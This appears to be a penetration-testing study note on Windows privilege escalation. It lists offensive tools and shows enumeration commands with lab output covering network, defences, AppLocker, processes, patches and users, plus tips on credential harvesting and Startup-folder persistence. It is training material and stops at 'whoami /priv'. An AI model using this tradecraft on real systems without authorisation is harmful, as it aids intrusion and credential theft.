# Windows Privesc

## Introduction

### Useful Tools

Non exhaustive list:

| Tool | Description |
| ---- | ----------- |
| [Seatbelt](https://github.com/GhostPack/Seatbelt) | C# project for performing a wide variety of local privilege escalation checks. |
| [winPEAS](https://github.com/carlospolop/privilege-escalation-awesome-scripts-suite/tree/master/winPEAS) | WinPEAS is a script that searches for possible paths to escalate privileges on Windows hosts. All of the checks are explained [here](https://book.hacktricks.wiki/en/windows-hardening/checklist-windows-privilege-escalation.html). |
| [PowerUp](https://raw.githubusercontent.com/PowerShellMafia/PowerSploit/master/Privesc/PowerUp.ps1) | PowerShell script for finding common Windows privilege escalation vectors that rely on misconfigs. It can also be used to exploit some of the issues found. |
| [SharpUp](https://github.com/GhostPack/SharpUp) | C# version of PowerUp. |
| [JAWS](https://github.com/411Hall/JAWS) | PowerShell script for enumerating privilege escalation vectors written in PowerShell 2.0 |
| [SessionGopher](https://github.com/Arvanaghi/SessionGopher) | SessionGopher is a PowerShell tool that finds and decrypts saved session information for remote access tools. It extracts PuTTY, WinSCP, SuperPuTTY, FileZilla, and RDP saved information. |
| [Watson](https://github.com/rasta-mouse/Watson) | Watson is a .NET tool designed to enumerate missing KBs and suggest exploits for PrivEsc vulns. |
| [LaZagne](https://github.com/AlessandroZ/LaZagne) | Tool used for retrieving passwords stored on a local machine from web browsers, chat tools, databases, Git, email, memory dumps, PHP, sysadmin tools, wireless network configs, internal Windows password storage mechanisms, and more. |
| [Windows Exploit Suggester - Next Generation](https://github.com/bitsadmin/wesng) | WES-NG is a tool based on the ouput of Windows' ```systeminfo``` utility which provides the list of vulns the OS is vulnerable to, including any exploits for these vulns. Every Windows OS between Windows XP and Windows 10, including their Windows Server counterparts, is supported. |
| [Sysinternals Suite](https://docs.microsoft.com/en-us/sysinternals/downloads/sysinternals-suite) |  |

Precompiled version can be found here: [Seatbelt/SharpUp](https://github.com/r3motecontrol/Ghostpack-CompiledBinaries), [LaZagne](https://github.com/AlessandroZ/LaZagne/releases/)

## Enumeration

### Situational Awareness

#### Network Information

Gathering network information is a crucial part of your enumeration. You may find that the host is dual-homed and that compromising the host may allow you to laterally into another part of the network that you could not access previously. Dual-homed means that the host or server belongs to two or more different networks and, in most cases, has several virtual or physical network interfaces. You should always look at routing tables to view information about the local network and networks around it. You can also gather information about the local domain, including the IP addresses of DCs. It is also important to use the arp command to view the ARP cache for each interface and view other hosts the host has recently communicated with. This could help you with lateral movement after obtaining credentials. It could be a good indication of which hosts administrators are connecting to via RDP or WinRM from this host.

This network information may help directly or indirectly with your local privesc. It may lead you down another path to a system that you can access or escalate privileges on or reveal information that you can use for lateral movement to further your access after escalating privileges on the current system.

```
C:\htb> ipconfig /all

Windows IP Configuration

   Host Name . . . . . . . . . . . . : WINLPE-SRV01
   Primary Dns Suffix  . . . . . . . :
   Node Type . . . . . . . . . . . . : Hybrid
   IP Routing Enabled. . . . . . . . : No
   WINS Proxy Enabled. . . . . . . . : No
   DNS Suffix Search List. . . . . . : .htb

Ethernet adapter Ethernet1:

   Connection-specific DNS Suffix  . :
   Description . . . . . . . . . . . : vmxnet3 Ethernet Adapter
   Physical Address. . . . . . . . . : 00-50-56-B9-C5-4B
   DHCP Enabled. . . . . . . . . . . : No
   Autoconfiguration Enabled . . . . : Yes
   Link-local IPv6 Address . . . . . : fe80::f055:fefd:b1b:9919%9(Preferred)
   IPv4 Address. . . . . . . . . . . : 192.168.20.56(Preferred)
   Subnet Mask . . . . . . . . . . . : 255.255.255.0
   Default Gateway . . . . . . . . . : 192.168.20.1
   DHCPv6 IAID . . . . . . . . . . . : 151015510
   DHCPv6 Client DUID. . . . . . . . : 00-01-00-01-27-ED-DB-68-00-50-56-B9-90-94
   DNS Servers . . . . . . . . . . . : 8.8.8.8
   NetBIOS over Tcpip. . . . . . . . : Enabled

Ethernet adapter Ethernet0:

   Connection-specific DNS Suffix  . : .htb
   Description . . . . . . . . . . . : Intel(R) 82574L Gigabit Network Connection
   Physical Address. . . . . . . . . : 00-50-56-B9-90-94
   DHCP Enabled. . . . . . . . . . . : Yes
   Autoconfiguration Enabled . . . . : Yes
   IPv6 Address. . . . . . . . . . . : dead:beef::e4db:5ea3:2775:8d4d(Preferred)
   Link-local IPv6 Address . . . . . : fe80::e4db:5ea3:2775:8d4d%4(Preferred)
   IPv4 Address. . . . . . . . . . . : 10.129.43.8(Preferred)
   Subnet Mask . . . . . . . . . . . : 255.255.0.0
   Lease Obtained. . . . . . . . . . : Thursday, March 25, 2021 9:24:45 AM
   Lease Expires . . . . . . . . . . : Monday, March 29, 2021 1:28:44 PM
   Default Gateway . . . . . . . . . : fe80::250:56ff:feb9:4ddf%4
                                       10.129.0.1
   DHCP Server . . . . . . . . . . . : 10.129.0.1
   DHCPv6 IAID . . . . . . . . . . . : 50352214
   DHCPv6 Client DUID. . . . . . . . : 00-01-00-01-27-ED-DB-68-00-50-56-B9-90-94
   DNS Servers . . . . . . . . . . . : 1.1.1.1
                                       8.8.8.8
   NetBIOS over Tcpip. . . . . . . . : Enabled

Tunnel adapter isatap..htb:

   Media State . . . . . . . . . . . : Media disconnected
   Connection-specific DNS Suffix  . : .htb
   Description . . . . . . . . . . . : Microsoft ISATAP Adapter
   Physical Address. . . . . . . . . : 00-00-00-00-00-00-00-E0
   DHCP Enabled. . . . . . . . . . . : No
   Autoconfiguration Enabled . . . . : Yes

Tunnel adapter Teredo Tunneling Pseudo-Interface:

   Media State . . . . . . . . . . . : Media disconnected
   Connection-specific DNS Suffix  . :
   Description . . . . . . . . . . . : Teredo Tunneling Pseudo-Interface
   Physical Address. . . . . . . . . : 00-00-00-00-00-00-00-E0
   DHCP Enabled. . . . . . . . . . . : No
   Autoconfiguration Enabled . . . . : Yes

Tunnel adapter isatap.{02D6F04C-A625-49D1-A85D-4FB454FBB3DB}:

   Media State . . . . . . . . . . . : Media disconnected
   Connection-specific DNS Suffix  . :
   Description . . . . . . . . . . . : Microsoft ISATAP Adapter #2
   Physical Address. . . . . . . . . : 00-00-00-00-00-00-00-E0
   DHCP Enabled. . . . . . . . . . . : No
   Autoconfiguration Enabled . . . . : Yes
```

```
C:\htb> arp -a

Interface: 10.129.43.8 --- 0x4
  Internet Address      Physical Address      Type
  10.129.0.1            00-50-56-b9-4d-df     dynamic
  10.129.43.12          00-50-56-b9-da-ad     dynamic
  10.129.43.13          00-50-56-b9-5b-9f     dynamic
  10.129.255.255        ff-ff-ff-ff-ff-ff     static
  224.0.0.22            01-00-5e-00-00-16     static
  224.0.0.252           01-00-5e-00-00-fc     static
  224.0.0.253           01-00-5e-00-00-fd     static
  239.255.255.250       01-00-5e-7f-ff-fa     static
  255.255.255.255       ff-ff-ff-ff-ff-ff     static

Interface: 192.168.20.56 --- 0x9
  Internet Address      Physical Address      Type
  192.168.20.255        ff-ff-ff-ff-ff-ff     static
  224.0.0.22            01-00-5e-00-00-16     static
  224.0.0.252           01-00-5e-00-00-fc     static
  239.255.255.250       01-00-5e-7f-ff-fa     static
  255.255.255.255       ff-ff-ff-ff-ff-ff     static
```

```
C:\htb> route print

===========================================================================
Interface List
  9...00 50 56 b9 c5 4b ......vmxnet3 Ethernet Adapter
  4...00 50 56 b9 90 94 ......Intel(R) 82574L Gigabit Network Connection
  1...........................Software Loopback Interface 1
  3...00 00 00 00 00 00 00 e0 Microsoft ISATAP Adapter
  5...00 00 00 00 00 00 00 e0 Teredo Tunneling Pseudo-Interface
 13...00 00 00 00 00 00 00 e0 Microsoft ISATAP Adapter #2
===========================================================================

IPv4 Route Table
===========================================================================
Active Routes:
Network Destination        Netmask          Gateway       Interface  Metric
          0.0.0.0          0.0.0.0       10.129.0.1      10.129.43.8     25
          0.0.0.0          0.0.0.0     192.168.20.1    192.168.20.56    271
       10.129.0.0      255.255.0.0         On-link       10.129.43.8    281
      10.129.43.8  255.255.255.255         On-link       10.129.43.8    281
   10.129.255.255  255.255.255.255         On-link       10.129.43.8    281
        127.0.0.0        255.0.0.0         On-link         127.0.0.1    331
        127.0.0.1  255.255.255.255         On-link         127.0.0.1    331
  127.255.255.255  255.255.255.255         On-link         127.0.0.1    331
     192.168.20.0    255.255.255.0         On-link     192.168.20.56    271
    192.168.20.56  255.255.255.255         On-link     192.168.20.56    271
   192.168.20.255  255.255.255.255         On-link     192.168.20.56    271
        224.0.0.0        240.0.0.0         On-link         127.0.0.1    331
        224.0.0.0        240.0.0.0         On-link       10.129.43.8    281
        224.0.0.0        240.0.0.0         On-link     192.168.20.56    271
  255.255.255.255  255.255.255.255         On-link         127.0.0.1    331
  255.255.255.255  255.255.255.255         On-link       10.129.43.8    281
  255.255.255.255  255.255.255.255         On-link     192.168.20.56    271
===========================================================================
Persistent Routes:
  Network Address          Netmask  Gateway Address  Metric
          0.0.0.0          0.0.0.0     192.168.20.1  Default
===========================================================================

IPv6 Route Table
===========================================================================
Active Routes:
 If Metric Network Destination      Gateway
  4    281 ::/0                     fe80::250:56ff:feb9:4ddf
  1    331 ::1/128                  On-link
  4    281 dead:beef::/64           On-link
  4    281 dead:beef::e4db:5ea3:2775:8d4d/128
                                    On-link
  4    281 fe80::/64                On-link
  9    271 fe80::/64                On-link
  4    281 fe80::e4db:5ea3:2775:8d4d/128
                                    On-link
  9    271 fe80::f055:fefd:b1b:9919/128
                                    On-link
  1    331 ff00::/8                 On-link
  4    281 ff00::/8                 On-link
  9    271 ff00::/8                 On-link
===========================================================================
Persistent Routes:
  None
```

One useful built-in tool for enumerating SMB shares within Windows environments is `net view`. It can be used to list domains, hosts, and shared resources available on the network. This is particularly useful after identifying reachable hosts via ARP or routing information.

For example, from the `client01` host, we can enumerate shares available on `dc01`:

```
C:\Users\student>net view \\dc01 /all
Shared resources at \\dc01

Share name  Type  Used as  Comment

-------------------------------------------------------------------------------
ADMIN$      Disk           Remote Admin
C$          Disk           Default share
IPC$        IPC            Remote IPC
NETLOGON    Disk           Logon server share
SYSVOL      Disk           Logon server share
The command completed successfully.
```

> [!INFO]
> Access to shares such as `SYSVOL` and `NETLOGON` can reveal logon scripts, group policies, or other sensitive data that may be leveraged for privilege escalation or lateral movement.

#### Enumerating Protections

Most modern environments have some sort of AV or Endpoint Detection and Response service running to monitor, alert on, and block threats proactively. These tools may interfere with the enumeration process. They will very likely present some sort of challenge during the privesc process, especially if you are using some kind of public PoC exploit or tool. Enumerating protections in place will help you ensure that you are using methods that are not being blocked or detected and will help you if you have to craft custom payloads or modify tools before compiling them.

Many organizations utilize some sort of application whitelisting solution to control what types of applications and files certain users can run. This may be used to attempt to block non-admin users from running cmd.exe or powershell.exe or other binaries and file types not needed for their day-to-day work. A popular solution offered by Microsoft is [AppLocker](https://docs.microsoft.com/en-us/windows/security/threat-protection/windows-defender-application-control/applocker/applocker-overview). You can use the [GetAppLockerPolicy](https://docs.microsoft.com/en-us/powershell/module/applocker/get-applockerpolicy?view=windowsserver2019-ps) cmdlet to enumerate the local, effective, and domain AppLocker policies. This will help you see what binaries or file types may be blocked and whether you will have to perform some sort of AppLocker bypass either during your enumeration or before running a tool or technique to escalate privileges.

```powershell
PS C:\htb> Get-MpComputerStatus

AMEngineVersion                 : 1.1.17900.7
AMProductVersion                : 4.10.14393.2248
AMServiceEnabled                : True
AMServiceVersion                : 4.10.14393.2248
AntispywareEnabled              : True
AntispywareSignatureAge         : 1
AntispywareSignatureLastUpdated : 3/28/2021 2:59:13 AM
AntispywareSignatureVersion     : 1.333.1470.0
AntivirusEnabled                : True
AntivirusSignatureAge           : 1
AntivirusSignatureLastUpdated   : 3/28/2021 2:59:12 AM
AntivirusSignatureVersion       : 1.333.1470.0
BehaviorMonitorEnabled          : False
ComputerID                      : 54AF7DE4-3C7E-4DA0-87AC-831B045B9063
ComputerState                   : 0
FullScanAge                     : 4294967295
FullScanEndTime                 :
FullScanStartTime               :
IoavProtectionEnabled           : False
LastFullScanSource              : 0
LastQuickScanSource             : 0
NISEnabled                      : False
NISEngineVersion                : 0.0.0.0
NISSignatureAge                 : 4294967295
NISSignatureLastUpdated         :
NISSignatureVersion             : 0.0.0.0
OnAccessProtectionEnabled       : False
QuickScanAge                    : 4294967295
QuickScanEndTime                :
QuickScanStartTime              :
RealTimeProtectionEnabled       : False
RealTimeScanDirection           : 0
PSComputerName                  :
```

```powershell
PS C:\htb> Get-AppLockerPolicy -Effective | select -ExpandProperty RuleCollections

PublisherConditions : {*\*\*,0.0.0.0-*}
PublisherExceptions : {}
PathExceptions      : {}
HashExceptions      : {}
Id                  : a9e18c21-ff8f-43cf-b9fc-db40eed693ba
Name                : (Default Rule) All signed packaged apps
Description         : Allows members of the Everyone group to run packaged apps that are signed.
UserOrGroupSid      : S-1-1-0
Action              : Allow

PathConditions      : {%PROGRAMFILES%\*}
PathExceptions      : {}
PublisherExceptions : {}
HashExceptions      : {}
Id                  : 921cc481-6e17-4653-8f75-050b80acca20
Name                : (Default Rule) All files located in the Program Files folder
Description         : Allows members of the Everyone group to run applications that are located in the Program Files
                      folder.
UserOrGroupSid      : S-1-1-0
Action              : Allow

PathConditions      : {%WINDIR%\*}
PathExceptions      : {}
PublisherExceptions : {}
HashExceptions      : {}
Id                  : a61c8b2c-a319-4cd0-9690-d2177cad7b51
Name                : (Default Rule) All files located in the Windows folder
Description         : Allows members of the Everyone group to run applications that are located in the Windows folder.
UserOrGroupSid      : S-1-1-0
Action              : Allow

PathConditions      : {*}
PathExceptions      : {}
PublisherExceptions : {}
HashExceptions      : {}
Id                  : fd686d83-a829-4351-8ff4-27c7de5755d2
Name                : (Default Rule) All files
Description         : Allows members of the local Administrators group to run all applications.
UserOrGroupSid      : S-1-5-32-544
Action              : Allow

PublisherConditions : {*\*\*,0.0.0.0-*}
PublisherExceptions : {}
PathExceptions      : {}
HashExceptions      : {}
Id                  : b7af7102-efde-4369-8a89-7a6a392d1473
Name                : (Default Rule) All digitally signed Windows Installer files
Description         : Allows members of the Everyone group to run digitally signed Windows Installer files.
UserOrGroupSid      : S-1-1-0
Action              : Allow

PathConditions      : {%WINDIR%\Installer\*}
PathExceptions      : {}
PublisherExceptions : {}
HashExceptions      : {}
Id                  : 5b290184-345a-4453-b184-45305f6d9a54
Name                : (Default Rule) All Windows Installer files in %systemdrive%\Windows\Installer
Description         : Allows members of the Everyone group to run all Windows Installer files located in
                      %systemdrive%\Windows\Installer.
UserOrGroupSid      : S-1-1-0
Action              : Allow

PathConditions      : {*.*}
PathExceptions      : {}
PublisherExceptions : {}
HashExceptions      : {}
Id                  : 64ad46ff-0d71-4fa0-a30b-3f3d30c5433d
Name                : (Default Rule) All Windows Installer files
Description         : Allows members of the local Administrators group to run all Windows Installer files.
UserOrGroupSid      : S-1-5-32-544
Action              : Allow

PathConditions      : {%PROGRAMFILES%\*}
PathExceptions      : {}
PublisherExceptions : {}
HashExceptions      : {}
Id                  : 06dce67b-934c-454f-a263-2515c8796a5d
Name                : (Default Rule) All scripts located in the Program Files folder
Description         : Allows members of the Everyone group to run scripts that are located in the Program Files folder.
UserOrGroupSid      : S-1-1-0
Action              : Allow

PathConditions      : {%WINDIR%\*}
PathExceptions      : {}
PublisherExceptions : {}
HashExceptions      : {}
Id                  : 9428c672-5fc3-47f4-808a-a0011f36dd2c
Name                : (Default Rule) All scripts located in the Windows folder
Description         : Allows members of the Everyone group to run scripts that are located in the Windows folder.
UserOrGroupSid      : S-1-1-0
Action              : Allow

PathConditions      : {*}
PathExceptions      : {}
PublisherExceptions : {}
HashExceptions      : {}
Id                  : ed97d0cb-15ff-430f-b82c-8d7832957725
Name                : (Default Rule) All scripts
Description         : Allows members of the local Administrators group to run all scripts.
UserOrGroupSid      : S-1-5-32-544
Action              : Allow
```

```powershell
PS C:\htb> Get-AppLockerPolicy -Local | Test-AppLockerPolicy -path C:\Windows\System32\cmd.exe -User Everyone

FilePath                    PolicyDecision MatchingRule
--------                    -------------- ------------
C:\Windows\System32\cmd.exe         Denied c:\windows\system32\cmd.exe
```

### Initial Enumeration

For reference, all Windows command: https://learn.microsoft.com/en-us/windows-server/administration/windows-commands/windows-commands

#### Key Data Points

**OS name**: Knowing the type of Windows OS and level will give you an idea of the types of tools that may be available, or lack thereof on legacy systems. This would also identify the OS version for which there may be public exploits available.

**Version**: As with the OS version, there may be public exploits that target a vuln in a specific version of Windows. Windows system exploits can cause system instability or even a complete crash. Be careful running these against any production system, and make sure you fully understand the exploit and possible ramifications before running one.

**Running Services**: Knowing what services are running on the host is important, especially those running as NT AUTHORITY/SYSTEM or an administrator-level account. A misconfigured or vulnerable service running in the context of a privileged account can be an easy win for privesc.

#### System Information

Looking at the system itself willl give you a better idea of the exact OS version, hardware in use, installed programs, and security updates. This will help you narrow down your hunt for any missing patches and associated CVEs that you may be able to leverage to escalate privileges. Using the ```tasklist``` command to look at running processes will give you a better idea of what applications are currently running on the system.

```
C:\htb> tasklist /svc

Image Name                     PID Services
========================= ======== ============================================
System Idle Process              0 N/A
System                           4 N/A
smss.exe                       316 N/A
csrss.exe                      424 N/A
wininit.exe                    528 N/A
csrss.exe                      540 N/A
winlogon.exe                   612 N/A
services.exe                   664 N/A
lsass.exe                      672 KeyIso, SamSs, VaultSvc
svchost.exe                    776 BrokerInfrastructure, DcomLaunch, LSM,
                                   PlugPlay, Power, SystemEventsBroker
svchost.exe                    836 RpcEptMapper, RpcSs
LogonUI.exe                    952 N/A
dwm.exe                        964 N/A
svchost.exe                    972 TermService
svchost.exe                   1008 Dhcp, EventLog, lmhosts, TimeBrokerSvc
svchost.exe                    364 NcbService, PcaSvc, ScDeviceEnum, TrkWks,
                                   UALSVC, UmRdpService
<...SNIP...>

svchost.exe                   1468 Wcmsvc
svchost.exe                   1804 PolicyAgent
spoolsv.exe                   1884 Spooler
svchost.exe                   1988 W3SVC, WAS
svchost.exe                   1996 ftpsvc
svchost.exe                   2004 AppHostSvc
FileZilla Server.exe          1140 FileZilla Server
inetinfo.exe                  1164 IISADMIN
svchost.exe                   1736 DiagTrack
svchost.exe                   2084 StateRepository, tiledatamodelsvc
VGAuthService.exe             2100 VGAuthService
vmtoolsd.exe                  2112 VMTools
MsMpEng.exe                   2136 WinDefend

<...SNIP...>

FileZilla Server Interfac     5628 N/A
jusched.exe                   5796 N/A
cmd.exe                       4132 N/A
conhost.exe                   4136 N/A
TrustedInstaller.exe          1120 TrustedInstaller
TiWorker.exe                  1816 N/A
WmiApSrv.exe                  2428 wmiApSrv
tasklist.exe                  3596 N/A
```

It is essential to become familiar with standard Windows processes such as Session Manager Subsystem (_smss.exe_), Client Server Runtime Subsystem (_csrss.exe_), WinLogon (_winlogon.exe_), Local Security Authority Subsystem Service (_LSASS_), and Service Host (_svchost.exe_), among others and the services associated with them. Being able to spot standard processes/services quickly will help speed up your enumeration and enable you to hone in on non-standard processes/services, which may open up a privesc path. In the example above, you would be most interested in the FileZilla FTP server running and would attempt to enumerate the version to look for public vulns or misconfigs such as FTP anonymous access, which would lead to sensitive data exposure or more.

Other processes such as MsMpEng.exe, Windows Defender, are interesting because they can help you map out what protections are in place on the target host you may have to evade/bypass.

##### Display All Environment Variables

The environment variables explain a lot about the host configuration. To get a printout of them, Windows provides the ```set``` command. One of the most overlooked variables is ```PATH```. In the output below, nothing is out of the ordinary. However, it is not uncommon to find administrators modify the ```PATH```. One common example is to place Python or Java in the path, which would allow the execution of Python or .JAR files. If the folder placed in the PATH is writeable by your user, it may be possible to perform DLL injections against other applications. Remember, when running a program, Windows looks for that program in the CWD first, then from PATH going left to right. This means if the custom path is placed on the left, it is much more dangerous than on the right.

In addition to PATH, ```set``` can also give up other helpful information such as the HOME DRIVE. In enterprises, this will often be a file share. Navigating to the file share itself may reveal other directories that can be accessed. It is not unheard of to be able to access an "IT Directory", which contains an inventory spreadsheet that includes passwords. Additionally, shares are utilized for home directories so the user can log on to other computers and have the same experience/files/desktop/etc. This may also mean the user takes malicious items with them. If a file is placed in ```USERPROFILE\AppData\Microsoft\Windows\Start Menu\Programs\Startup```, when the user logs into a different machine, this filewill execute.

```
C:\htb> set

ALLUSERSPROFILE=C:\ProgramData
APPDATA=C:\Users\Administrator\AppData\Roaming
CommonProgramFiles=C:\Program Files\Common Files
CommonProgramFiles(x86)=C:\Program Files (x86)\Common Files
CommonProgramW6432=C:\Program Files\Common Files
COMPUTERNAME=WINLPE-SRV01
ComSpec=C:\Windows\system32\cmd.exe
HOMEDRIVE=C:
HOMEPATH=\Users\Administrator
LOCALAPPDATA=C:\Users\Administrator\AppData\Local
LOGONSERVER=\\WINLPE-SRV01
NUMBER_OF_PROCESSORS=6
OS=Windows_NT
Path=C:\Windows\system32;C:\Windows;C:\Windows\System32\Wbem;C:\Windows\System32\WindowsPowerShell\v1.0\;C:\Users\Administrator\AppData\Local\Microsoft\WindowsApps;
PATHEXT=.COM;.EXE;.BAT;.CMD;.VBS;.VBE;.JS;.JSE;.WSF;.WSH;.MSC
PROCESSOR_ARCHITECTURE=AMD64
PROCESSOR_IDENTIFIER=AMD64 Family 23 Model 49 Stepping 0, AuthenticAMD
PROCESSOR_LEVEL=23
PROCESSOR_REVISION=3100
ProgramData=C:\ProgramData
ProgramFiles=C:\Program Files
ProgramFiles(x86)=C:\Program Files (x86)
ProgramW6432=C:\Program Files
PROMPT=$P$G
PSModulePath=C:\Program Files\WindowsPowerShell\Modules;C:\Windows\system32\WindowsPowerShell\v1.0\Modules
PUBLIC=C:\Users\Public
SESSIONNAME=Console
SystemDrive=C:
SystemRoot=C:\Windows
TEMP=C:\Users\ADMINI~1\AppData\Local\Temp\1
TMP=C:\Users\ADMINI~1\AppData\Local\Temp\1
USERDOMAIN=WINLPE-SRV01
USERDOMAIN_ROAMINGPROFILE=WINLPE-SRV01
USERNAME=Administrator
USERPROFILE=C:\Users\Administrator
windir=C:\Windows
```

##### View Detailed Configuration Information

The `systeminfo` command will show if the box has been patched recently and if it is a VM. If the box has not been patched recently, getting administrator-level access may be as simple as running a known exploit. Google the KBs installed under [HotFixes](https://www.catalog.update.microsoft.com/Search.aspx?q=hotfix) to get an idea of when the box has been patched. This information isn't always present, as it is possible to hide hotfixes software from non-administrators. The System Boot Time and OS Version can also be checked to get an idea of the path level. If the box has not been restarted in over six months, chances are it is also not being patched.

Additionally, many guides will say the Network Information is important as it could indicate a dual-homed machine. Generally speaking, when it comes to enterprises, devices will just be granted access to other networks via a firewall rule and not have a physical cable to run them.

```
C:\htb> systeminfo

Host Name:                 WINLPE-SRV01
OS Name:                   Microsoft Windows Server 2016 Standard
OS Version:                10.0.14393 N/A Build 14393
OS Manufacturer:           Microsoft Corporation
OS Configuration:          Standalone Server
OS Build Type:             Multiprocessor Free
Registered Owner:          Windows User
Registered Organization:
Product ID:                00376-30000-00299-AA303
Original Install Date:     3/24/2021, 3:46:32 PM
System Boot Time:          3/25/2021, 9:24:36 AM
System Manufacturer:       VMware, Inc.
System Model:              VMware7,1
System Type:               x64-based PC
Processor(s):              3 Processor(s) Installed.
                           [01]: AMD64 Family 23 Model 49 Stepping 0 AuthenticAMD ~2994 Mhz
                           [02]: AMD64 Family 23 Model 49 Stepping 0 AuthenticAMD ~2994 Mhz
                           [03]: AMD64 Family 23 Model 49 Stepping 0 AuthenticAMD ~2994 Mhz
BIOS Version:              VMware, Inc. VMW71.00V.16707776.B64.2008070230, 8/7/2020
Windows Directory:         C:\Windows
System Directory:          C:\Windows\system32
Boot Device:               \Device\HarddiskVolume2
System Locale:             en-us;English (United States)
Input Locale:              en-us;English (United States)
Time Zone:                 (UTC-08:00) Pacific Time (US & Canada)
Total Physical Memory:     6,143 MB
Available Physical Memory: 3,474 MB
Virtual Memory: Max Size:  10,371 MB
Virtual Memory: Available: 7,544 MB
Virtual Memory: In Use:    2,827 MB
Page File Location(s):     C:\pagefile.sys
Domain:                    WORKGROUP
Logon Server:              \\WINLPE-SRV01
Hotfix(s):                 3 Hotfix(s) Installed.
                           [01]: KB3199986
                           [02]: KB5001078
                           [03]: KB4103723
Network Card(s):           2 NIC(s) Installed.
                           [01]: Intel(R) 82574L Gigabit Network Connection
                                 Connection Name: Ethernet0
                                 DHCP Enabled:    Yes
                                 DHCP Server:     10.129.0.1
                                 IP address(es)
                                 [01]: 10.129.43.8
                                 [02]: fe80::e4db:5ea3:2775:8d4d
                                 [03]: dead:beef::e4db:5ea3:2775:8d4d
                           [02]: vmxnet3 Ethernet Adapter
                                 Connection Name: Ethernet1
                                 DHCP Enabled:    No
                                 IP address(es)
                                 [01]: 192.168.20.56
                                 [02]: fe80::f055:fefd:b1b:9919
Hyper-V Requirements:      A hypervisor has been detected. Features required for Hyper-V will not be displayed.
```

##### Patches and Updates

If `systeminfo` doesn't display hotfixes, they may be queriable with WMI using the WMI-Command binary with QFE (_Quick Fix Engineering_) to display patches.

```
C:\htb> wmic qfe

Caption                                     CSName        Description      FixComments  HotFixID   InstallDate  InstalledBy          InstalledOn  Name  ServicePackInEffect  Status
http://support.microsoft.com/?kbid=3199986  WINLPE-SRV01  Update                        KB3199986               NT AUTHORITY\SYSTEM  11/21/2016
https://support.microsoft.com/help/5001078  WINLPE-SRV01  Security Update               KB5001078               NT AUTHORITY\SYSTEM  3/25/2021
http://support.microsoft.com/?kbid=4103723  WINLPE-SRV01  Security Update               KB4103723               NT AUTHORITY\SYSTEM  3/25/2021
```

You can do this with PowerShell as well using the Get-Hotfix cmdlet.

```powershell
PS C:\htb> Get-HotFix | ft -AutoSize

Source       Description     HotFixID  InstalledBy                InstalledOn
------       -----------     --------  -----------                -----------
WINLPE-SRV01 Update          KB3199986 NT AUTHORITY\SYSTEM        11/21/2016 12:00:00 AM
WINLPE-SRV01 Update          KB4054590 WINLPE-SRV01\Administrator 3/30/2021 12:00:00 AM
WINLPE-SRV01 Security Update KB5001078 NT AUTHORITY\SYSTEM        3/25/2021 12:00:00 AM
WINLPE-SRV01 Security Update KB3200970 WINLPE-SRV01\Administrator 4/13/2021 12:00:00 AM
```

##### Installed Programs

WMI can also be used to display installed software. This information can often guide you towards hard-to-find exploits. Is FileZilla/Putty/etc installed? Run LaZagne to check if stored credentials for those applications are installed. Also, some programs may be installed and running as a service that is vulnerable.

```
C:\htb> wmic product get name

Name
Microsoft Visual C++ 2019 X64 Additional Runtime - 14.24.28127
Java 8 Update 231 (64-bit)
Microsoft Visual C++ 2019 X86 Additional Runtime - 14.24.28127
VMware Tools
Microsoft Visual C++ 2019 X64 Minimum Runtime - 14.24.28127
Microsoft Visual C++ 2019 X86 Minimum Runtime - 14.24.28127
Java Auto Updater

<SNIP>
```

You can, of course, do this with PowerShell as well using the Get-WmiObject cmdlet.

```powershell
PS C:\htb> Get-WmiObject -Class Win32_Product |  select Name, Version

Name                                                                    Version
----                                                                    -------
SQL Server 2016 Database Engine Shared                                  13.2.5026.0
Microsoft OLE DB Driver for SQL Server                                  18.3.0.0
Microsoft Visual C++ 2010  x64 Redistributable - 10.0.40219             10.0.40219
Microsoft Help Viewer 2.3                                               2.3.28107
Microsoft Visual C++ 2010  x86 Redistributable - 10.0.40219             10.0.40219
Microsoft Visual C++ 2013 x86 Minimum Runtime - 12.0.21005              12.0.21005
Microsoft Visual C++ 2013 x86 Additional Runtime - 12.0.21005           12.0.21005
Microsoft Visual C++ 2019 X64 Additional Runtime - 14.28.29914          14.28.29914
Microsoft ODBC Driver 13 for SQL Server                                 13.2.5026.0
SQL Server 2016 Database Engine Shared                                  13.2.5026.0
SQL Server 2016 Database Engine Services                                13.2.5026.0
SQL Server Management Studio for Reporting Services                     15.0.18369.0
Microsoft SQL Server 2008 Setup Support Files                           10.3.5500.0
SSMS Post Install Tasks                                                 15.0.18369.0
Microsoft VSS Writer for SQL Server 2016                                13.2.5026.0
Java 8 Update 231 (64-bit)                                              8.0.2310.11
Browser for SQL Server 2016                                             13.2.5026.0
Integration Services                                                    15.0.2000.130

<SNIP>
```

##### Display Running Processes

The `netstat` will display active TCP and UDP connections which will give you a better idea of what services are listening on which port(s) both locally and accessible to the outside. You may find a vulnerable service only accessible to the local host that you can exploit to escalate privileges.

```
PS C:\htb> netstat -ano

Active Connections

  Proto  Local Address          Foreign Address        State           PID
  TCP    0.0.0.0:21             0.0.0.0:0              LISTENING       1096
  TCP    0.0.0.0:80             0.0.0.0:0              LISTENING       4
  TCP    0.0.0.0:135            0.0.0.0:0              LISTENING       840
  TCP    0.0.0.0:445            0.0.0.0:0              LISTENING       4
  TCP    0.0.0.0:1433           0.0.0.0:0              LISTENING       3520
  TCP    0.0.0.0:3389           0.0.0.0:0              LISTENING       968
<...SNIP...>
```

#### User & Group Information

Users are often the weakest link in an orgnization, especially when systems are configured and patched wll. It is essential to gain an understanding of the users and groups on the system, members of specific groups that can provide you with admin level access, the privileges your current user has, password policy information, and any logged on users that you may be able to target. You may find the system to be well patched, but a member of the local administrator group's user directory is browsable and contains a password file such as logins.xlsx, resulting in a very easy win.

##### Logged-In Users

It is always important to determine what users are logged into a system. Are they idle or active? Can you determine what they are working on? While more challenging to pull off, you can sometimes attack users directly to escalate privileges or gain further access. During an evasive engagement, you would need to tread lightly on a host with other user(s) actively working on it to avoid detection.

```
C:\htb> query user

 USERNAME              SESSIONNAME        ID  STATE   IDLE TIME  LOGON TIME
>administrator         rdp-tcp#2           1  Active          .  3/25/2021 9:27 AM
```

##### Current User

When you gain access to a host, you should always check what user context your account is running under first. Sometimes you are already SYSTEM or equivalent. Suppose you gain access as a service account. In that case, you may have privileges such as `SeImpersonatePrivilege`, which can often be easily abused to escalate privileges using a tool such as [Juicy Potato](https://github.com/ohpe/juicy-potato).

```
C:\htb> echo %USERNAME%

htb-student 
```

##### Current User Privileges

As mentioned prior, knowing what privileges your user has can greatly help in escalating privileges.

```
C:\htb> whoami /priv

PRIVILEGES INFORMATION
----------------------

Privilege Name                Description                    State
============================= ============================== ========
